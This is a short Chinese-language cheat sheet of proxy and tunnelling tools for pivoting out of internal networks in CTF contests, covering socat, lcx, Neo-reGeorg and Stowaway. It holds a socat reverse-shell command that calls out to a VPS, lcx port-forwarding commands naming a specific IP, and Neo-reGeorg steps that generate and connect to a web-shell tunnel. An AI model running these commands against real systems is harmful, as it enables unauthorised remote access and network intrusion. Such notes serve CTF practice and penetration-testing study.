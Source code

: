 # 记录一些代理工具

>目前是用与ctf的内网环境代理出内网。

### socat
>适合?。。。

地址：http://www.iteait.com/archives/603

socat下载:地址
https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

直接wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

```

靶机：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:vps:3333

主机：socat file:`tty`,raw,echo=0 tcp-listen:3333
```

### lcx

将内网的8005端口代理出vps的81端口
```
gcc lcx.c -o lcx

靶机: ./lcx -m 3 -h1 1.116.136.120 -h2 127.0.0.1 -p1 81 -p2 8005
vps:  ./lcx -m 2 -p1 2333 -p2 8005
```

### NeoreGeorg

>2021长安线下使用过 php环境配置浏览器代理

https://github.com/L-codes/Neo-reGeorg

详细使用看readme.md
```
python neoreg.py generate -k password #生成不同连接密码的木马
 
python3 neoreg.py -k password -u http://xx/tunnel.php   #木马

然后就代理到127.0.0.1:1080 然后配合浏览器代理去访问就欧克
```
![image](https://user-images.githubusercontent.com/63966847/137916175-66737e29-ed2c-4930-930f-10c401f718bf.png)


### stowaway 
https://mp.weixin.qq.com/s?__biz=Mzg4NTA0MzgxNQ==&mid=2247485237&idx=1&sn=b7c909bddd742f351ea985eb05dfebc4&chksm=cfafa03df8d8292b6fb20bb6ad9ac650c86a1d708e089aa5abfd33994ddddd2cdb01938d7dec&mpshare=1&scene=23&srcid=1115YPb8VRvCLwiS8wTREoxL&sharer_sharetime=1636967942759&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd


